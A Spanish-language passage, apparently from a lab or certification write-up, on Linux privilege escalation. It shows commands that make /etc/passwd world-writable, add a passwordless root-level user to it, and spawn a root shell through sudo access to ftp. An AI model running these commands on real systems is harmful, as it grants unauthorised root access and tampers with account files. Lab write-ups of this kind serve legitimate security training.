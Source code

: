 - Cambiar los permisos de **/etc/passwd**.

    ```bash
    sudo /bin/chmod 777 /etc/passwd
    ```

- Añadir usuario sin contraseña y bash de **root**.

    ```bash
    echo 'exploituser::0:0:root:/root:/bin/bash' >> /etc/passwd
    ```

### 7. *Permisos de SUDO en FTP*

- Para escalar privilegios con los permisos de sudo en **FTP**, ejecutaríamos el servicio.

    ```bash
    sudo /usr/bin/ftp
    ```

- Y una vez dentro ejecutamos lo siguiente para obtener una **shell**.

    ```bash
    ! /bin/sh
    ```

---

Ejecuto la primera por ejemplo, y obtengo una **Shell** como **root**.

![picture](/assets/images/ejptv2/cold21.png)


